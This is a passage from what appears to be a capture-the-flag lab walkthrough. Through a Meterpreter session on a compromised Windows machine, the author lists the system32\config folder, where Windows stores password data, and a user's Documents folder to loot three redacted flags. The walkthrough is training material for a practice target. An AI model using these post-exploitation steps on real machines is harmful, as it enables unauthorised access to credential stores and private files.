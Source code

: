     meterpreter > cat flag1.txt
    flag{REDACTED}
    ```

- Flag2? This flag can be found at the location where passwords are stored within Windows.
    ```bash
    meterpreter > cd Windows/system32/config
    meterpreter > ls
    Listing: C:\Windows\system32\config
    ===================================

    Mode              Size      Type  Last modified              Name
    ----              ----      ----  -------------              ----
    100666/rw-rw-rw-  28672     fil   2009-07-14 01:32:39 -0400  BCD-Template
    100666/rw-rw-rw-  25600     fil   2009-07-14 01:38:35 -0400  BCD-Template.LOG
    100666/rw-rw-rw-  18087936  fil   2009-07-13 22:34:08 -0400  COMPONENTS
    ...
    40777/rwxrwxrwx   4096      dir   2009-07-13 23:20:10 -0400  TxR
    100666/rw-rw-rw-  34        fil   2018-12-12 22:48:22 -0500  flag2.txt
    40777/rwxrwxrwx   4096      dir   2009-07-13 23:20:10 -0400  systemprofile

    meterpreter > cat flag2.txt
    flag{REDACTED}
    ```

- flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
    ```bash
    meterpreter > cd Users/Jon/Documents 
    meterpreter > ls
    Listing: C:\Users\Jon\Documents
    ===============================

    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    40777/rwxrwxrwx   0     dir   2018-12-12 22:13:31 -0500  My Music
    40777/rwxrwxrwx   0     dir   2018-12-12 22:13:31 -0500  My Pictures
    40777/rwxrwxrwx   0     dir   2018-12-12 22:13:31 -0500  My Videos
    100666/rw-rw-rw-  402   fil   2018-12-12 22:13:45 -0500  desktop.ini
    100666/rw-rw-rw-  37    fil   2018-12-12 22:49:18 -0500  flag3.txt

    meterpreter > cat flag3.txt 
    flag{REDACTED}
    ```